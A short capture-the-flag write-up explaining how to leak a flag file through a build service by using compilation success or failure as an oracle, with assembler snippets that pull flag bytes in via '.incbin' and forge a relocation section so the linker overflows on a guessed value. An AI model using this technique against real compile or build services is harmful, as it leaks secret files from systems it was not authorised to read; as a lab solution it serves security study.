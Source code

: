 We need to exfiltrate the flag file using nothing but compilation failure/success
as an oracle.

My solution is to read the file with assembler `.incbin` directive. Then craft a fake
relocation section to make the linker operate on flag data and conditionally fail.

In particular, we declare a symbol `guess` with a 32bit absolute value:

	.global guess
	.set guess, GUESS

Include 4 bytes of flag:

	foobar:
		.incbin "flag", OFFSET, 4

Make the linker add `guess` to the 4 bytes:

	# @9 is section type SHT_REL
	.section .rel.text, "aMo", @9, 16, .text
	.8byte 4  # offset of incbin-ed bytes
	.4byte 10 # relocation type R_X86_64_32
	.4byte 4  # symbol id of "guess"

Linking will fail if `GUESS+u32(flag[OFFSET:OFFSET+4])` won't fit in 32 bits.
That's enough to exfiltrate the flag.
